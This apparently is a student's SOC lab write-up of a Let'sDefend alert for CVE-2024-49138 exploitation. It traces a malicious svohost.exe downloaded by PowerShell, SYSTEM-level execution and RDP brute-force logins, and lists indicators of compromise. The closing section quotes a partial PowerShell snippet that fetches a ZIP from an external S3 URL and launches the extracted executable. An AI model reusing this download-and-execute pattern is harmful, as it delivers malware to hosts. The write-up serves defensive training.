# Day 23 — SOC335: CVE-2024-49138 Exploitation Detected


## Overview


Today I investigated the **SOC335 — CVE-2024-49138 Exploitation Detected** alert in the Let'sDefend SOC environment.

The alert was classified as a **Medium severity Privilege Escalation** alert and involved suspicious activity on the **Victor** endpoint.

During the investigation, I analyzed the suspicious process `svohost.exe`, its PowerShell parent process, file hash reputation, endpoint process activity, authentication logs, and outbound network connections.

The investigation revealed that PowerShell downloaded a malicious ZIP archive from an external S3 bucket. The archive contained the suspicious `svohost.exe` executable, which was executed on the endpoint.

Further endpoint analysis showed that `svohost.exe` spawned `whoami.exe` under the **NT AUTHORITY\SYSTEM** account, providing evidence of privilege escalation.

The investigation also identified multiple RDP brute-force attempts from an external IP followed by a successful RDP login.

Based on the available evidence, the alert was confirmed as a **True Positive**.



---

## Alert Details

- **Alert:** SOC335 — CVE-2024-49138 Exploitation Detected
- **Severity:** Medium
- **Type:** Privilege Escalation
- **Event ID:** 313
- **Host:** `Victor`
- **Host IP:** `172.16.17.207`
- **Process:** `svohost.exe`
- **Process Path:** `C:\temp\service_installer\svohost.exe`
- **Parent Process:** `PowerShell`
- **Command Line:** `\??\C:\Windows\system32\conhost.exe 0xffffffff -ForceV1`
- **SHA-256:** `b432dcf4a0f0b601b1d79848467137a5e25cab5a0b7b1224be9d3b6540122db9`
- **Device Action:** Allowed
- **Source IP:** `185.107.56.141`
- **Verdict:** True Positive

---

## Investigation Process

### 1. Taking Ownership of the Alert

I started the investigation by reviewing the **SOC335** alert in the Let'sDefend platform.

I acknowledged the alert and transferred it to the appropriate investigation channel.

The affected host was:

`Victor`

The incident time was:

`January 22, 2025 — 02:37 AM`


**Figure 1 — Taking ownership of the SOC335 alert**

---

### 2. Case Creation

I created a case for the alert to begin a formal investigation and document the findings.

Creating a case helped organize the investigation and allowed the relevant evidence and artifacts to be recorded.



**Figure 2 — Creating a case for the SOC335 alert**

---

### 3. VirusTotal File Hash Investigation

During the endpoint investigation, I identified the suspicious executable:

`svohost.exe`

The SHA-256 hash was:

`b432dcf4a0f0b601b1d79848467137a5e25cab5a0b7b1224be9d3b6540122db9`

I submitted the hash to **VirusTotal** to check whether the file was associated with known malicious activity.



**Figure 3 — VirusTotal detection of the suspicious file**

The VirusTotal results identified the binary as **malicious**.

This provided strong evidence that `svohost.exe` was not a legitimate file.

---

### 4. Host Analysis

I then reviewed the affected endpoint **Victor**.

The host information was:

- **Hostname:** Victor
- **IP Address:** `172.16.17.207`
- **Operating System:** Windows 10 64-bit
- **Domain:** `letsdefend`
- **User:** Victor

The suspicious executable was located at:

`C:\temp\service_installer\svohost.exe`

The execution path was unusual because the file was located under a temporary directory rather than a normal Windows system directory.

---

### 5. Terminal Activity Analysis

Next, I reviewed the terminal activity on the endpoint.

The following suspicious sequence was identified:

1. Reconnaissance commands such as `whoami`
2. Privilege information check using `whoami /priv`
3. PowerShell downloading a ZIP archive
4. Extraction of the downloaded archive using 7-Zip
5. Execution of `svohost.exe`
6. Additional reconnaissance activity after execution



**Figure 4 — Terminal command history showing the download and execution flow**

The sequence showed that the suspicious executable was not an isolated event. It was part of a larger chain of activity on the endpoint.

---

### 6. PowerShell Download Investigation

The investigation showed that PowerShell was used to download a ZIP archive from an external S3 bucket.

The download location was:

`files-ld.s3.us-east-2.amazonaws.com`

The downloaded archive was:

`service-installer.zip`

The archive was then extracted into the temporary directory:

`C:\temp\service_installer\`

The extracted contents included:

`svohost.exe`

This established a relationship between the PowerShell download activity and the suspicious executable.

---

### 7. Endpoint Process Review

I then reviewed the endpoint process tree to understand how the suspicious executable was executed.

The execution chain showed:

`powershell.exe → svohost.exe`



**Figure 5 — Endpoint process tree showing suspicious execution**

The suspicious executable was launched by PowerShell after the archive was downloaded and extracted.

The process name was also suspicious because `svohost.exe` closely resembles the legitimate Windows process `svchost.exe`.

---

### 8. Privilege Escalation Analysis

I continued analyzing the process tree to determine whether privilege escalation occurred.

The suspicious `svohost.exe` process later spawned:

`whoami.exe`

The process was executed under:

`NT AUTHORITY\SYSTEM`



**Figure 6 — Process activity showing SYSTEM-level execution**

`NT AUTHORITY\SYSTEM` represents a highly privileged Windows security context.

This provided important evidence that the activity resulted in privilege escalation rather than only suspicious file execution.

---

### 9. RDP Authentication Log Analysis

I then moved to **Log Management** and filtered the logs using the affected host IP:

`172.16.17.207`

The investigation revealed multiple failed RDP authentication attempts originating from:

`185.107.56.141`

A successful RDP login was then observed.

The relevant Windows Security Event IDs were:

- **4625** — Failed Logon
- **4624** — Successful Logon

The successful RDP authentication used **Logon Type 10**, which represents a RemoteInteractive logon.



**Figure 7 — Log Management showing RDP authentication activity**

The sequence of multiple failed authentication attempts followed by a successful login was suspicious and indicated possible brute-force activity.

---

### 10. Outbound Traffic Investigation

I also investigated the network activity associated with the endpoint.

The host communicated with external infrastructure during the attack.

The suspicious PowerShell activity downloaded the following archive:

`service-installer.zip`

from:

`hxxps://files-ld.s3.us-east-2.amazonaws.com/service-installer.zip`

The outbound connection was relevant because it was associated with the delivery of the malicious executable.

---

## Incident Response — Playbook Analysis

After completing the initial investigation, I worked through the **Case Management Playbook** to validate the threat and determine the appropriate response.

### 11. Define Threat Indicator

The playbook required identifying a relevant threat indicator.

The appropriate indicator was:

**Unknown or unexpected outgoing internet traffic**

The endpoint generated outbound traffic while PowerShell downloaded a suspicious ZIP archive from external infrastructure.



**Figure 8 — Playbook question for identifying the threat indicator**

---

### 12. Check if the Malware Was Quarantined

I then checked whether the suspicious malware had been quarantined or cleaned.

The investigation showed:

**The malware was not quarantined.**



**Figure 9 — Playbook question showing malware containment status**

The suspicious executable remained active on the endpoint, increasing the potential impact of the incident.

---

### 13. Analyze the Malware

I submitted the suspicious file hash to malware analysis services including **VirusTotal** and **Hybrid Analysis**.

The SHA-256 hash was:

`b432dcf4a0f0b601b1d79848467137a5e25cab5a0b7b1224be9d3b6540122db9`

The analysis results identified the file as malicious.



**Figure 10 — Playbook question for malware analysis**

**Conclusion: The malware is malicious.**

---

### 14. Check for C2 / Outbound Communication

I then investigated whether the endpoint communicated with suspicious external infrastructure.

The relevant indicators were:

- **Suspicious IP:** `185.107.56.141`
- **Download URL:** `hxxps://files-ld.s3.us-east-2.amazonaws.com/service-installer.zip`

The logs showed outbound communication from the Victor endpoint to external infrastructure.



**Figure 11 — Playbook question for outbound communication**

**Conclusion: Suspicious external infrastructure was accessed.**

---

## Artifacts Collected

The following Indicators of Compromise were identified during the investigation:

### Malicious IP

`185.107.56.141`

### Malicious File Hash

`b432dcf4a0f0b601b1d79848467137a5e25cab5a0b7b1224be9d3b6540122db9`

### Suspicious File

`svohost.exe`

### File Path

`C:\temp\service_installer\svohost.exe`

### Download URL

`hxxps://files-ld.s3.us-east-2.amazonaws.com/service-installer.zip`

### PowerShell Activity

The PowerShell activity downloaded the archive and executed the extracted executable.

Example command activity:

```powershell
$url = 'https://files-ld.s3.us-east-2.amazonaws.com/service-installer.zip'
$dest = 'C:\temp\service-installer.zip'
Start-Process -FilePath "$extractPath\service_installer\svohost.exe"
